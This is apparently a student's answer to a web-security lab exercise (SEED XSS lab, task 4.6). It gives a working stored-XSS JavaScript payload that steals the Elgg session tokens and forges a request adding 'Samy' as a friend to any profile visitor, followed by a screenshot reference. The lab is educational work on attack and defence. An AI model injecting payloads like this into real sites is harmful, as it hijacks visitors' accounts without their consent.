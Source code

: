 ### 4.6 Becoming the Victim’s Friend [5 Marks]

* The modified code

  ```html
  <script type="text/javascript">
  window.onload = function () {
  	var Ajax=null;
  	var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  	var token="&__elgg_token="+elgg.security.token.__elgg_token;
  	//Construct the HTTP request to add Samy as a friend.
  	var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=" + 
          		elgg.page_owner.guid+ token + ts; //FILL IN
      alert(sendurl)
      //Create and send Ajax request to add friend
  	Ajax=new XMLHttpRequest();
  	Ajax.open("GET",sendurl,true);
  	Ajax.setRequestHeader("Host","www.xsslabelgg.com");
  	Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
  	Ajax.send();
  }
  </script>
  
  ```

  ![1588011425678](assets/1588011425678.png)
